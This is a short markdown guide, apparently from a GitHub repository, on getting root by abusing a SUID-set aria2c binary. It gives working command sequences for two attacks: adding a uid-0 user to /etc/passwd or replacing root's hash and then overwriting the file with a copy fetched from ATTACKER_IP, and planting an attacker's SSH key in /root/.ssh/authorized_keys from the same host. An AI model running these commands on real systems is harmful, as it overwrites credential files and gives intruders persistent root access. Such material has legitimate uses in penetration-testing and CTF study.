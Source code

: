 # Aria2c Privilege Escalation

Link: https://gtfobins.github.io/gtfobins/aria2c/

## SUID Bit

Here, we will try to overwrite the passwd file, or add our public key to target machine to authenticate as root as an alternate method.

## Passwd file overwrite

### 1) Copy target passwd on your machine

    cat /etc/passwd (Target)

### 2) You can either modify root's password, or add an arbitrary user with root privileges. Either works fine.

Generate a password hashed in Bcrypt

    openssl passwd PASSWORD

Then you can add an arbitrary user inside the passwd file

    pwned:HASH_FROM_OPENSSL_COMMAND:0:0:root:/root:/bin/bash

OR change root's password (Replace the x with your generated hash from openssl command)

    root:HASH_FROM_OPENSSL_COMMAND:0:0:root:/root:/bin/bash

### 3) Overwrite the original /etc/passwd in the target machine with our modified one (You must be in the / directory for it to work)

    /usr/bin/aria2c -o /etc/passwd "http://ATTACKER_IP/passwd" --allow-overwrite=true

### 4) Authenticate either as root or your user

    su root
    su pwned

## SSH session as root

### 1) Go to your .ssh folder where your key pair is located

    cd ~/.ssh/

### 2) Transfer the public key to root authorized_keys to allow you to authenticate as root via SSH using your private key (You must be in the / directory for it to work)

    /usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://ATTACKER_IP/id_rsa.pub" --allow-overwrite=true

### 3) SSH as root to target machine

    ssh root@IP
